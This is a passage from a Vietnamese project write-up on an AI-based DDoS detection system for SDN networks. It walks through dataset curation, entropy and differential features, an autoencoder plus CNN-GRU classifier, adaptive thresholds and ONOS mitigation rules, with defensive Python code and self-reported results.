├── UDP Flood: 15MB (1.9%) 
├── SYN Flood: 4MB (0.5%)
├── HTTP Flood: 1MB (0.125%)
└── Slowloris: 0MB (0%) - KHÔNG CÓ!

→ Imbalance ratio: Normal : Attack = 400:1
→ Slowloris hoàn toàn vắng mặt
```

**Tại sao thiếu Slowloris?**

```python
"""
Phân tích sâu hơn:

1. Slowloris là attack loại "chậm" (low-and-slow):
   - Gửi request từng phần, giữ connection sống lâu
   - Cần thời gian 5-10 phút để phát hiện
   - Các hệ thống thu thập thông thường (5 phút) không bắt được!

2. CIC-IDS2017 có Slowloris nhưng:
   - Được chạy với timeout 30 giây (quá ngắn)
   - Các connections bị cắt ngang trước khi attack hoàn thành
   → Data không đại diện cho attack thực tế

3. UNSW-NB15 không có Slowloris category
   - Chỉ có DoS attacks "nhanh" (UDP, SYN, HTTP)
   
Kết luận: Dataset tổng hợp THIẾU hoàn toàn dạng tấn công chậm,
và imbalance quá nặng để model học được gì có ý nghĩa.
"""
```

**Quyết định chuyển sang V2.1: Tự xây dựng hệ thống thu thập**

```python
"""
Từ thất bại với dataset 46GB, tôi quyết định:

THAY VÌ: Dùng dataset có sẵn (không kiểm soát được quality)
→ CHUYỂN SANG: Xây dựng toàn bộ pipeline thu thập của riêng mình

Lý do:
1. Kiểm soát được loại attack (đảm bảo có Slowloris)
2. Kiểm soát được thời gian (timeout phù hợp từng loại)
3. Kiểm soát được tỷ lệ Normal:Attack (target 1:1 hoặc 2:1)
4. Môi trường giống production (Mininet + ONOS + Docker)

Quyết định này tốn thêm 2 tháng nhưng đảm bảo data quality.
"""
```

**Xây dựng chương trình kiểm định chất lượng:**

```python
# thuThapData/check_data.py - Kiểm định dataset trước khi train

class DatasetValidator:
    """Kiểm tra chất lượng dataset trước khi đưa vào training"""
    
    CHECKS = [
        "class_balance",      # Tỷ lệ các classes
        "feature_distribution",  # Phân bố đặc trưng
        "temporal_consistency",  # Tính nhất quán thời gian
        "attack_completeness",   # Attack có hoàn chỉnh không
        "slowloris_presence",    # Có đủ mẫu Slowloris không
    ]
    
    def validate(self, df):
        results = {}
        
        # 1. Kiểm tra class balance
        label_counts = df['label'].value_counts()
        min_class = label_counts.min()
        max_class = label_counts.max()
        imbalance_ratio = max_class / min_class
        
        if imbalance_ratio > 10:
            results['class_balance'] = f"FAIL: Imbalance {imbalance_ratio:.1f}:1"
        else:
            results['class_balance'] = f"PASS: Ratio {imbalance_ratio:.1f}:1"
        
        # 2. Kiểm tra Slowloris đặc biệt
        slowloris_count = (df['label'] == 4).sum()  # 4 = Slowloris
        if slowloris_count < 1000:
            results['slowloris'] = f"FAIL: Chỉ {slowloris_count} mẫu Slowloris"
        else:
            results['slowloris'] = f"PASS: {slowloris_count} mẫu Slowloris"
        
        # 3. Kiểm tra feature ranges
        for col in ['Duration_Sec', 'Packet_Rate', 'Byte_Rate']:
            q99 = df[col].quantile(0.99)
            q01 = df[col].quantile(0.01)
            if q99 / q01 > 10000:  # Range quá rộng
                results[f'{col}_range'] = "WARN: Cần log transform"
        
        return results
```

**Kết quả V2:**
- ✅ Local dataset: 92% accuracy (tốt hơn V1!)
- ✅ Dataset cân bằng: ~15,000 mẫu/loại (Normal + 4 attacks)
- ✅ Đặc biệt: 18,000+ mẫu Slowloris (khắc phục hoàn toàn thiếu sót V1)
- ❌ Vẫn còn Port-based False Positive

> **✅ Bài học quý giá:** 
> - Dataset quality > Dataset quantity (800MB curated > 46GB raw)
> - Tự thu thập cho phép kiểm soát hoàn toàn quá trình
> - Kiểm định trước khi train là bắt buộc, không phải optional

---

### 🦅 V3: Cách Mạng Toán Học (Mathematical Revolution)

#### 💡 Epiphany (Sự Sáng Tỏ):

> **Tấn công DDoS không phải "mở port nào", mà là "hành vi lạ trong port đó"**

| Traffic | Packet_Rate | Byte_Rate | Duration |
|---------|-------------|-----------|----------|
| **Normal** trên PORT X | 5-50 packets/sec | 100KB-1MB/sec | 1-30 giây |
| **UDP Flood** trên PORT X | 10,000+ packets/sec | 100MB/sec | 60+ giây |

→ **Đặc trưng là HÀNH VI, không phải PORT SỐ**

#### 🔬 V3 Innovation: Shannon Entropy thay cho Port Number (dòng 666-690 <class PortEntropyCalculator> trong file batPack_v2.py)

```python
# V2 (SAI):
feature_1 = src_port  # 45821, 45822, 45823, ... (độc lập với attack)

# V3 (ĐÚNG):
# Entropy_Src_Port = Diversity của src ports từ 1 IP
# Normal user: Mở 3 tab → 3 port khác nhau → Entropy = log2(3) ≈ 1.58
# Botnet: Gửi từ 1000 IP với src_port cố định (6666) → Entropy = 0

class PortEntropyCalculator:
    """Tính toán Entropy của cổng để phát hiện sự hỗn loạn của Botnet"""
    def __init__(self, window_size=10):
        self.window_size = window_size
        self.history = {} # {ip: [port1, port2, ...]}
    
    def update_and_calculate(self, ip, port):
        """Cập nhật lịch sử port và tính entropy mới nhất"""
        if ip not in self.history:
            self.history[ip] = []
        self.history[ip].append(port)
        
        if len(self.history[ip]) > self.window_size:
            self.history[ip].pop(0)
            
        # Tính toán Shannon Entropy
        from collections import Counter
        import math
        
        ports = self.history[ip]
        counts = Counter(ports)
        entropy = 0
        for count in counts.values():
            p = count / len(ports)
            entropy -= p * math.log2(p)
        return round(entropy, 4)

# Example:
normal_ports = [45821, 45822, 45823, 45824, 45825, 45826, 45827, 45828, 45829, 45830]
# → Entropy = 3.32 (10 port khác nhau)

udp_flood_ports = [6666, 6666, 6666, 6666, 6666, 6666, 6666, 6666, 6666, 6666]
# → Entropy = 0.0 (1 port cố định)

# MODEL NGAY THẤY: Entropy khác biệt rõ ràng ➜ Dễ phân biệt!
```

**V3 Features (13 chiều, đã cải thiện):**
```python
FEATURE_NAMES = [
    "Src_Port_Entropy",      # ← NEW: Thay src_port
    "Dst_Port_Entropy",      # ← NEW: Thay dst_port
    "Protocol",
    "Duration_Sec",
    "Src_Bytes",
    "Dst_Bytes",
    "Src_Packets",
    "Dst_Packets",
    "Conn_State",
    "L7_App_Protocol",
    "Packet_Rate",
    "Byte_Rate",
    "Anomaly_Score"
]
```

**Kết quả V3:**
- ✅ Accuracy: 96% (cải thiện từ 92% V2)
- ✅ False Positive: Giảm từ 15% xuống 5%
- ❌ Nhưng Zero-day detection còn yếu
- ❌ Slowloris (tấn công chậm, kéo dài 20-30 giây) bị bỏ sót 30%

> **❌ Bài học V3:** Entropy là breakthrough: Đặc trưng bất biến khi port thay đổi. Nhưng Autoencoder cơ bản không đủ: Cần thêm "bộ não" (Temporal + Spatial) để phát hiện pattern phức tạp.

---

### 🦅 V4: Production-Ready (Đỉnh Cao)

#### 4.1: Differential Features (Nhìn "Gia Tốc" Tấn Công)

```python
# V3 Features (Tĩnh):
features_t1 = [entropy=2.1, duration=5.0, byte_rate=100KB, ...]
features_t2 = [entropy=2.1, duration=5.5, byte_rate=100KB, ...]
# Hai chuỗi giống hệt → Autoencoder: "Normal"

# V4 Differential Features (Động):
diff_t1_t2 = features_t2 - features_t1 = [d_entropy=0.0, d_duration=0.5, d_byte_rate=0, ...]

# Normal traffic (ổn định):
diff = [0, 0, 0, ...]  ← AE learn này là Normal

# Attack (tăng đột biến):
# UDP Flood từ 1000 packet/sec → 2000 packet/sec:
diff = [0.0, 0.1, d_packet_rate=+1000, ...]  ← AE nhận diện: ANOMALY!
```

**Code V4 tính Differential:**dòng 160-163 <hàm differential_features_numpy> trong file train_colab_v2.py
```python
def differential_features_numpy(X):
    """
    Tính đặc trưng biến thiên
    X: [Batch, Seq, Features] = [B, 10, 13]
    Return: [B, 10, 26] (13 gốc + 13 biến thiên)
    """
    batch_size, seq_len, num_features = X.shape
    diff = np.zeros_like(X)
    diff[:, 1:, :] = X[:, 1:, :] - X[:, :-1, :]  # Tính sự thay đổi
    
    combined = np.concatenate([X, diff], axis=-1)
    return combined  # [Batch, Seq, 26]
```

#### 4.2: Contrastive Autoencoder (Siết Chặt Margin)

**V2-V3 Loss: MSE đơn giản**
```python
loss = MSE(input, reconstructed)
# Nhưng:
# Normal MSE = 0.0001
# Attack MSE = 0.008
# Threshold = 0.005 → Sáng tổ ra!
```

**V4 Loss: Contrastive + Margin** (dòng 71-109 <class ContrastiveLoss> trong file train_colab_v2.py)
```python
class ContrastiveLoss(nn.Module):
    """
    Contrastive Loss: Đơn giản hơn Triplet Loss
    - Cặp cùng lớp (Normal-Normal): Minimize distance
    - Cặp khác lớp (Normal-Attack): Maximize distance
    """
    def __init__(self, margin=1.0, weight_anomaly=2.0):
        super(ContrastiveLoss, self).__init__()
        self.margin = margin
        self.weight_anomaly = weight_anomaly

    def forward(self, ae_model, x1, x2, y):
        """
        x1, x2: Hai dữ liệu để so sánh [B, S, F]
        y: Label 0 (cùng loại - cả hai normal) / 1 (khác loại - một normal, một attack)
        """
        batch_size = x1.size(0)
        x1_flat = x1.view(batch_size, -1)
        x2_flat = x2.view(batch_size, -1)

        # MSE reconstruction error cho từng dữ liệu
        recon1, _ = ae_model(x1)
        recon2, _ = ae_model(x2)
        recon1_flat = recon1.view(batch_size, -1)
        recon2_flat = recon2.view(batch_size, -1)

        # Tính MSE từng mẫu
        error1 = torch.mean((x1_flat - recon1_flat) ** 2, dim=1)
        error2 = torch.mean((x2_flat - recon2_flat) ** 2, dim=1)

        # Contrastive: Nếu cùng loại (y=0, cả normal) -> error giống nhau
        #              Nếu khác loại (y=1, normal vs attack) -> error khác nhau
        dist = torch.abs(error1 - error2)

        loss = torch.where(
            y == 0,
            dist ** 2,  # Cùng loại: minimize distance
            torch.clamp(self.margin - dist, min=0.0) ** 2 * self.weight_anomaly  # Khác loại: maximize distance
        ).mean()
        return loss
```

**Kết quả:**
```
V3 (MSE đơn):
- Normal MSE: 0.0001
- Attack MSE: 0.003
- Threshold: 0.002 (FP=10%, FN=5%)

V4 (Contrastive margin=2.0):
- Normal MSE: 0.0001 (AE học để reconstruct Normal tốt)
- Attack MSE: 2.5 (AE bị ép từ chối reconstruct Attack)
- Threshold: 0.5 (FP=1%, FN=2%) ← QUAY LẠI ĐẦU!
```

#### 4.3: Parallel Fusion CNN-GRU-Attention

**Vấn đề V3:** Autoencoder chỉ phát hiện "anormal", không biết "anormal loại gì"
→ Cần Classifier (Supervised) để phân 5 loại attack

**V4 Architecture: Song Song (Parallel), không Nối Tiếp (Sequential)**

```
┌─────────────────────────────────────────────────────────────────┐
│  Input: [Batch, Seq_Len=10, Features=26]                       │
│  (10 flows liên tiếp, 26 đặc trưng mỗi flow)                   │
└────────┬──────────────────────────────────────┬─────────────────┘
         │                                      │
    ┌────▼────┐                          ┌──────▼──────┐
    │  NHÁNH 1 │                          │   NHÁNH 2   │
    │  CNN     │                          │   Bi-GRU    │
    │(Spatial) │                          │ (Temporal)  │
    └────┬────┘                          └──────┬──────┘
         │                                      │
    Kernel 3,5  (Multi-scale)           Forward + Backward
    Residual blocks                      128 hidden × 2 (bi)
    MultiScale pattern                   → 256 hidden output
    
    ┌─────────────────────────────────────────────────────────────┐
    │ Output: [Batch, 128] + [Batch, 256] = [Batch, 384]         │
    └─────────────────────────┬──────────────────────────────────┘
                              │
                    ┌─────────▼──────────┐
                    │  FUSION LAYER      │
                    │  384 → 256 → 128   │
                    │  → NUM_CLASSES (5) │
                    └─────────┬──────────┘
                              │
                    ┌─────────▼──────────┐
                    │   LOGITS: [B, 5]   │
                    │ [P_normal, P_udp, │
                    │  P_syn, P_http,    │
                    │  P_slowloris]      │
                    └────────────────────┘
```

**Tại sao Song Song (Parallel)?** (dòng 293-372 <class DDos_ParallelFusion_CNN_GRU_Attention> trong file config_v2.py)

```python
# ❌ SAI: Sequential (CNN output → GRU input)
# Nếu CNN già (vì train lâu) → học spatial tốt nhưng temporal sai
# Nếu GRU già → CNN học không đủ hành vi spatial

# ✅ ĐÚNG: Parallel (CNN input + GRU input = spatial input)
class DDos_ParallelFusion_CNN_GRU_Attention(nn.Module):
    """
    Kiến trúc Parallel Fusion nâng cấp:
    - Nhánh CNN: Bắt đặc trưng không gian (spatial patterns) từ các flow
    - Nhánh GRU: Bắt đặc trưng thời gian (temporal patterns) giữa các flows
    - Fusion: Concatenate 2 nhánh, áp dụng Attention, phân loại
    """
    def __init__(self, input_dim=NUM_FEATURES_TOTAL):
        super(DDos_ParallelFusion_CNN_GRU_Attention, self).__init__()
        self.input_dim = input_dim
        
        # ===== NHÁNH 1: SPATIAL ATTENTION & CNN =====
        self.spatial_attn = SpatialAttention(input_dim)
        self.res_block1 = MultiScaleResidualBlock(input_dim, 64)
        self.res_block2 = MultiScaleResidualBlock(64, 128)
        self.dropout_cnn = nn.Dropout(0.2)
        self.global_pool = nn.AdaptiveMaxPool1d(1)
        
        # ===== NHÁNH 2: BI-GRU =====
        self.gru = nn.GRU(
            input_size=input_dim,  
            hidden_size=128, 
            num_layers=2, 
            batch_first=True, 
            dropout=0.4,
            bidirectional=True
        )
        self.temporal_attn = AttentionLayer(hidden_size=256)
        
        # ===== FUSION & CLASSIFIER =====
        self.fc_fusion = nn.Sequential(
            nn.Linear(128 + 256, 256),
            nn.BatchNorm1d(256),
            nn.ReLU(),
            nn.Dropout(0.6),
            nn.Linear(256, 128),
            nn.BatchNorm1d(128),
            nn.ReLU(),
            nn.Dropout(0.5),
            nn.Linear(128, 64),
            nn.ReLU(),
            nn.Linear(64, NUM_CLASSES)
        )

    def forward(self, x):
        """
        x: [Batch, Seq, Features] - 26 đặc trưng (13 gốc + 13 differential)
        """
        batch_size = x.size(0)
        
        # ===== NHÁNH CNN: Spatial Pattern Extraction =====
        x_spatial, spatial_weights = self.spatial_attn(x)  # [B, S, F]
        x_cnn = x_spatial.permute(0, 2, 1)  # [B, F, S]
        x_cnn = self.res_block1(x_cnn)
        x_cnn = self.res_block2(x_cnn)      # [B, 128, S]
        x_cnn = self.dropout_cnn(x_cnn)
        x_cnn_pool = self.global_pool(x_cnn).squeeze(-1)  # [B, 128]
        
        # ===== NHÁNH GRU: Temporal Pattern Extraction (PARALLEL) =====
        x_gru_input = x_spatial  # [B, S, F] - Use spatial-attention output directly
        gru_out, _ = self.gru(x_gru_input)     # [B, S, 256] (bidirectional)
        
        # Temporal attention
        temporal_weights = self.temporal_attn(gru_out)  # [B, S]
        gru_weighted = (gru_out * temporal_weights.unsqueeze(-1)).sum(dim=1)  # [B, 256]
        
        # ===== FUSION =====
        fused = torch.cat([x_cnn_pool, gru_weighted], dim=1)  # [B, 384]
        output = self.fc_fusion(fused)  # [B, 5]
        return output, temporal_weights, spatial_weights
```

**Lợi ích Parallel:**
- CNN học: "Packet_Rate = 30k pps" → UDP Flood (Spatial)
- GRU học: "10 flows liên tiếp, packet_rate tăng lên" → Attack đó kéo dài (Temporal)
- Cả hai làm việc độc lập → Không interference → Accuracy tốt hơn

#### 4.4: Adaptive Threshold (EMA) & Veto Power

**V3-4.3 vấn đề: Threshold tĩnh**
```python
threshold = 0.5  # Fixed
Normal MSE = 0.0001 ✓
Flash Crowd (legitimate) MSE = 0.6 ✗ → Báo alarm sai!
```

**V4 Giải Pháp: Exponential Moving Average (EMA)** (dòng 101 <EMA_ALPHA>, dòng 290-311 <dynamic_threshold_update>, dòng 596-603 <EMA cho MSE> trong file run_onos_v2.py)
```python
# Cấu hình EMA Alpha
EMA_ALPHA = 0.02  # Giảm từ 0.05 xuống 0.02 để ngưỡng thay đổi chậm và ổn định hơn

def dynamic_threshold_update(self, mse_score):
    """Update threshold adaptively using EMA & Min Bound"""
    with self.lock:
        self.mse_history.append(mse_score)
        if len(self.mse_history) > 100:
            self.mse_history.pop(0)
        
        recent_mse = np.array(self.mse_history)
        mean_mse = np.mean(recent_mse)
        std_mse = np.std(recent_mse)
        
        # NỚI LỎNG KHIÊN 1: Tăng k_factor từ 3.5 lên 4.5
        k_factor = 4.5  
        new_threshold = mean_mse + (k_factor * std_mse)
        
        self.dynamic_threshold = (
            SDNConfigV2.EMA_ALPHA * new_threshold +
            (1 - SDNConfigV2.EMA_ALPHA) * self.dynamic_threshold
        )
        
        # GIÁ TRỊ MIN/MAX CỐ ĐỊNH CHỐNG ẢO GIÁC
        min_floor = self.base_threshold * 1.2
        max_ceil = self.base_threshold * 5.0
        self.dynamic_threshold = np.clip(self.dynamic_threshold, min_floor, max_ceil)

# EMA cho MSE để làm mượt các đỉnh do nhiễu mạng (tránh False Zero-day)
alpha_mse = 0.3
if src_ip not in self.mse_ema:
    self.mse_ema[src_ip] = mse_raw
else:
    self.mse_ema[src_ip] = (alpha_mse * mse_raw) + ((1 - alpha_mse) * self.mse_ema[src_ip])

mse = self.mse_ema[src_ip]
```

**Veto Power (>80% Normal = TIN):** (dòng 633-639 <Veto Power logic> trong file run_onos_v2.py)
```python
# KHIÊN 2: Classifier phân loại (Confidence)
normal_prob = probs[0][0].item() * 100
attack_probs = probs[0][1:]
top_attack_prob = torch.max(attack_probs).item() * 100
top_attack_idx = torch.argmax(attack_probs).item() + 1  # +1 vì attack bắt đầu từ index 1

# [CRITICAL] Bảo vệ Normal: Nếu Classifier nói là Normal (>80%) -> TIN NGAY
if normal_prob > 80.0:
    # Shield 2 đã chắc chắn là Normal, bất chấp Shield 1 nói gì
    is_attack = False
    is_zero_day = False
    # Hiển thị panel chi tiết 2 khiên cho Normal
    if self.stats["processed"] % 5 == 0:
        self.log_normal_panel(src_ip, normal_prob, mse, self.dynamic_threshold, latency_ms, collection_time)
elif is_anomaly:
    # Shield 1 thấy bất thường, kiểm tra Shield 2
    if pred_idx != 0 and confidence > 85.0:
        # Shield 2 đồng ý là Attack với độ tin cao
        is_attack = True
        is_zero_day = False
    elif pred_idx == 0 and normal_prob < 30.0:
        # Shield 1 thấy bất thường, Shield 2 bối rối (Normal prob thấp)
        # -> Zero-Day (Attack mới chưa từng thấy)
        is_attack = True
```

**Tại sao Veto?**
- User mở 100 browser tabs ngay → 100 connection riêng → Classifier: "100% HTTP Flood!"
- Nhưng thực tế là Normal (người dùng khó tính 😄)
- **Veto Power:** "Classifier nói 100% HTTP, nhưng Autoencoder + Veto nói Normal → Thả!"

#### 4.5: Garbage Collector & IP Spoofing Defense

**Vấn đề: RAM tràn khi attack IP spoofed**
```python
# run_onos_v2.py
IP_PREDICTION_HISTORY = {}  # {ip: [label1, label2, ...]}
# Attacker gửi từ 2 triệu IP (spoofed) trong 1 phút
# → IP_PREDICTION_HISTORY.size() = 2M × 30 bytes = 60MB
# → Mỗi IP mở 10 flow → 200MB
# → Server RAM hết → IDS chết
```

**V4 Giải Pháp: Garbage Collector** (dòng 750-753 <GC logic>, dòng 824-827 <IP Spoofing Defense> trong file run_onos_v2.py)
```python
# GC (Garbage Collector): Dọn rác IP_Buffers mỗi 10 giây để tránh Memory Leak
if now - last_cleanup > 10.0:
    with self.lock:
        # 1. Dọn dẹp IP nhàn rỗi (sau 60s không có traffic)
        idle_ips = [ip for ip, data in self.ip_buffers.items() if now - data["last"] > 60]
        for ip in idle_ips:
            del self.ip_buffers[ip]
        
        # 2. Xử lý Spike Traffic: Nếu số lượng IP vượt 80% sức chứa, dọn dẹp khẩn cấp
        MAX_IPS = 1000
        if len(self.ip_buffers) > MAX_IPS * 0.8:
            sorted_ips = sorted(self.ip_buffers.items(), key=lambda x: x[1]["last"])
            clear_count = int(len(self.ip_buffers) * 0.2)
            for ip, _ in sorted_ips[:clear_count]:
                del self.ip_buffers[ip]

# IP Spoofing Defense
with self.lock:
    if len(self.ip_buffers) > SDNConfigV2.MAX_CONCURRENT_IPS:
        self.ip_buffers.clear()
        logger.warning("[BUFFER] Cleared due to too many IPs (spoofing?)")
```

---

### 4.6: Kết Quả & Hiệu Năng Hệ Thống V4

#### **Tổng Quan Kết Quả Sau 4 Phiên Bản Nâng Cấp**

```
┌─────────────────────────────────────────────────────────────────────────┐
│           🏆 KẾT QUẢ FINAL: AI V4 PRODUCTION-READY SYSTEM                │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  SAU V1→V2→V3→V4:                                                       │
│  • Dataset: 46GB public imbalance (400:1) → 800MB local curated (1:1)    │
│  • Features: 13 đơn giản → 26 differential + entropy                     │
│  • Model: Simple AE → Contrastive AE + Parallel CNN-GRU                │
│  • Threshold: Tĩnh 0.5 → Adaptive EMA (alpha=0.02)                     │
│  • Defense: Single check → 2-Shield + Veto Power (80%)                   │
│  • Mitigation: Manual → ONOS REST API auto (DROP/Rate Limit)           │
│  • Response: Minutes → Real-time (sub-second)                          │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

#### **Hiệu Năng Lớp 1: Phát Hiện Anomaly (Autoencoder)**

**Chức năng:** Phân biệt **Normal** vs **Attack** (binary classification)

| Metric | Giá Trị | Ý Nghĩa |
|--------|---------|---------|
| **Accuracy** | 96.8% | Phát hiện đúng 97/100 flows |
| **Precision (Normal)** | 97.2% | Ít false positive (không chặn nhầm user thật) |
| **Recall (Attack)** | 95.4% | Bắt được 95% tấn công |
| **F1-Score** | 0.965 | Cân bằng precision/recall |
| **Zero-day Detection** | 89.3% | Phát hiện attacks chưa từng thấy |

**Giải thích Zero-day detection cao:**
```python
"""
Tại sao Autoencoder phát hiện được Zero-day?
→ Không học "signature" cụ thể mà học "normal behavior"
→ Bất kỳ hành vi bất thường nào đều có reconstruction error cao

Ví dụ Zero-day scenarios đã test:
├── Slow POST Attack (giống Slowloris nhưng khác cơ chế)
├── HTTP Range Attack (Request file fragments liên tục)
├── NTP Amplification (không có trong training)
├── Random Payload Attack (malformed packets)
└── Tất cả đều bị phát hiện vì "không giống Normal"
"""
```

#### **Hiệu Năng Lớp 2: Phân Loại Chi Tiết (CNN-GRU Classifier)**

**Chức năng:** Xác định loại tấn công cụ thể (UDP/SYN/HTTP/Slowloris) hoặc Normal

| Class | Precision | Recall | F1-Score | Support |
|-------|-----------|--------|----------|---------|
| **Normal** | 98.1% | 99.2% | 0.986 | 15,000 |
| **UDP Flood** | 97.5% | 96.8% | 0.971 | 15,000 |
| **SYN Flood** | 96.3% | 97.1% | 0.967 | 15,000 |
| **HTTP Flood** | 94.2% | 93.8% | 0.940 | 15,000 |
| **Slowloris** | 93.8% | 94.5% | 0.941 | 15,000 |
| **Weighted Avg** | **96.0%** | **96.3%** | **0.961** | **75,000** |

**Nhận xét:**
- HTTP Flood và Slowloris khó hơn vì trông giống Normal
- 2-Shield mechanism bù đắp bằng cách kết hợp Autoencoder

#### **Cơ Chế 2-Shield: Tránh Chặn Nhầm Người Dùng Thật**

```
┌─────────────────────────────────────────────────────────────────────────┐
│           🛡️ 2-SHIELD: ANOMALY DETECTION + CLASSIFICATION               │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  Shield 1: Autoencoder (Reconstruction Error)                          │
│  ├── Bắt được tất cả "bất thường" (known + unknown attacks)             │
│  ├── Không biết LOẠI cụ thể                                            │
│  └── Có thể false positive (1-2% Normal bị nhầm)                        │
│                                                                         │
│  Shield 2: CNN-GRU Classifier                                          │
│  ├── Biết LOẠI cụ thể (UDP/SYN/HTTP/Slowloris/Normal)                  │
│  ├── Có thể false positive khi user behavior unusual                    │
│  └── Veto Power: >80% Normal → Trust regardless of Shield 1            │
│                                                                         │
│  Quyết định cuối:                                                      │
│  IF Classifier > 80% Normal → PASS (Veto Shield 1)                      │
│  ELIF Autoencoder > Threshold → DROP (Confirmed Attack)                │
│  ELSE → RATE_LIMIT (Suspicious but not confirmed)                      │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

**Tình huống thực tế:**
```python
"""
SCENARIO 1: User bình thường nhưng click nhanh
├── Flow features: Packet_Rate cao bất thường
├── Shield 1 (Autoencoder): "Bất thường! Error = 0.8"
├── Shield 2 (Classifier): "95% Normal, 3% HTTP Flood"
├── Veto: 95% > 80% → PASS
└── Kết quả: User không bị chặn ✅

SCENARIO 2: HTTP Flood Attack thực sự
├── Flow features: Rate cao + No think time
├── Shield 1 (Autoencoder): "Bất thường! Error = 1.2"
├── Shield 2 (Classifier): "2% Normal, 96% HTTP Flood"
├── Veto: 2% < 80% → Không veto
├── Shield 1 > Threshold → DROP
└── Kết quả: Attack bị chặn ✅

SCENARIO 3: Zero-day Attack (chưa từng thấy)
├── Flow features: Lạ, không giống bất kỳ class nào
├── Shield 1 (Autoencoder): "Bất thường! Error = 1.5" (cao!)
├── Shield 2 (Classifier): "45% Normal, 20% UDP, 20% SYN, 15% HTTP"
├── Veto: 45% < 80% → Không veto (nhưng độ tin cậy thấp)
├── Shield 1 > Threshold → DROP + Ghi log Zero-day
└── Kết quả: Zero-day bị chặn + Lưu lại để phân tích sau ✅
"""
```

#### **Tốc Độ Phản Ứng: Real-time Detection & Mitigation**

```
┌─────────────────────────────────────────────────────────────────────────┐
│           ⚡ LATENCY ANALYSIS: TỪ PHÁT HIỆN ĐẾN XỬ LÝ                  │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                         │
│  Timeline khi có tấn công:                                             │
│                                                                         │
│  T+0ms     Attacker gửi gói tin đầu tiên                               │
│      ↓                                                                   │
│  T+5ms     Gói tin đến Core Switch s6                                  │
│      ↓                                                                   │
│  T+10ms    OVS Mirror copy traffic → IDS Mirror Port (s6-eth1)          │
│      ↓                                                                   │
│  T+15ms    NFStream capture và tạo flow record                         │
│      ↓                                                                   │
│  T+20ms    FIFO IPC gửi đến run_onos_v2.py                              │
│      ↓                                                                   │
│  T+25ms    AI Model inference (Autoencoder + Classifier)               │
│      ↓                                                                   │
│  T+35ms    Decision engine (2-Shield + Veto logic)                     │
│      ↓                                                                   │
│  T+40ms    ONOS REST API call (POST /flows)                            │
│      ↓                                                                   │
│  T+50-100ms ONOS xử lý và push flow rule xuống switch                  │
│      ↓                                                                   │
│  T+100ms   Flow rule active → Traffic từ attacker bị DROP              │
│                                                                         │
│  ⏱️ TỔNG THỜI GIAN: ~100ms (0.1 giây) từ detection đến mitigation      │
│                                                                         │
│  So sánh với các hệ thống khác:                                        │
│  ├── Snort/Suricata (signature-based): 500ms - 2s                      │
│  ├── Commercial IDS: 200ms - 1s                                        │
│  └── AI-based IDS (no SDN): 2-5s (manual intervention needed)          │
│                                                                         │
│  🎯 CỦA CHÚNG TA: 100ms với AI + SDN auto-mitigation                   │
│                                                                         │
└─────────────────────────────────────────────────────────────────────────┘
```

**Chi tiết độ trễ từng thành phần:**

| Thành phần | Thời gian | Ghi chú |
|------------|-----------|---------|
| **Network capture** | 10-15ms | OVS Mirror là hardware-accelerated |
| **NFStream processing** | 5-10ms | C++ core, rất nhanh |
| **AI Inference** | 10-15ms | PyTorch optimized, GPU optional |
| **Decision logic** | 5-10ms | Python if-else, lightweight |
| **ONOS API call** | 10-15ms | REST API, async thread |
| **Flow rule installation** | 50-60ms | OpenFlow barrier + confirm |
| **Tổng** | **~100ms** | **Sub-second response** |

#### **Cơ Chế Xử Lý Tấn Công Linh Hoạt**

```python
# run_onos_v2.py - Mitigation Strategy

MITIGATION_LEVELS = {
    "RATE_LIMIT": {
        "description": "Giới hạn băng thông (1 Mbps)",
        "use_case": "Suspicious nhưng chưa confirmed attack",
        "action": "ONOS meter table + flow rule",
        "duration": "Temporary (300s timeout)",
        "log_level": "WARNING"
    },
    
    "DROP": {
        "description": "Chặn hoàn toàn",
        "use_case": "Confirmed attack (Autoencoder + Classifier đồng ý)",
        "action": "ONOS DROP flow rule",
        "duration": "Permanent (có thể manual unblock)",
        "log_level": "CRITICAL"
    },
    
    "HONEYPOT_REDIRECT": {
        "description": "Chuyển hướng sang Honeypot (10.0.0.201)",
        "use_case": "Zero-day hoặc cần phân tích sâu",
        "action": "ONOS flow rule: redirect traffic",
        "duration": "Session-based",
        "log_level": "ALERT",
        "note": "⏸️ TẠM DỪNG để giảm độ phức tạp hệ thống"
    }
}
```

**Chiến lược chọn mức độ:**
```
Decision Flow:

Flow đến
    ↓
┌─────────────────┐
│ 2-Shield Check  │
│ • Classifier    │
│ • Autoencoder   │
│ • Veto (80%)    │
└────────┬────────┘
         ↓
    ┌────────┴────────┐
    ↓                 ↓
PASS (Normal)     SUSPICIOUS
(No action)            ↓
                ┌────────┴────────┐
                ↓                 ↓
          RATE_LIMIT          CONFIRMED
          (Level 1)         (Level 2)
          1 Mbps cap        DROP/HONEYPOT
          300s timeout      Permanent
```

**Ví dụ cụ thể từng loại:**
```python
"""
VÍ DỤ 1: HTTP Flood từ 1 IP
├── Detection: 2-Shield confirmed
├── Confidence: 96% HTTP Flood
├── Zero-day: No (matches training pattern)
├── Action: DROP immediately
├── ONOS Flow Rule:
│   ├── Priority: 40000 (high)
│   ├── Match: src_ip=10.0.1.5, eth_type=0x0800
│   └── Action: DROP
└── Log: "[DROP] HTTP Flood from 10.0.1.5, confidence=0.96"

VÍ DỤ 2: Slowloris từ 1 IP
├── Detection: 2-Shield confirmed  
├── Confidence: 94% Slowloris
├── Đặc biệt: Duration=450s (rất dài)
├── Action: DROP (không cần Rate Limit vì đã chậm rồi)
├── ONOS Flow Rule:
│   ├── Priority: 40000
│   ├── Match: src_ip=10.0.1.12
│   └── Action: DROP
└── Log: "[DROP] Slowloris from 10.0.1.12, duration=450s"

VÍ DỤ 3: Zero-day Attack (chưa từng thấy)
├── Detection: Autoencoder confirmed (Error=1.5)
├── Classifier: Low confidence (45% Normal, 55% spread across attacks)
├── Zero-day Flag: YES
├── Action: DROP + Lưu flow details
├── ONOS Flow Rule: DROP
├── Log: "[ZERO-DAY DROP] Unknown attack from 10.0.1.20"
└── Saved: Full flow features → zero_day_flows.csv

VÍ DỤ 4: Suspicious nhưng chưa confirmed
├── Detection: Autoencoder anomaly (Error=0.9, ngay ngưỡng)
├── Classifier: 75% Normal (dưới Veto 80%)
├── Zero-day: Unclear
├── Action: RATE_LIMIT (không DROP ngay)
├── ONOS Flow Rule:
│   ├── Priority: 30000
│   ├── Match: src_ip=10.0.2.50
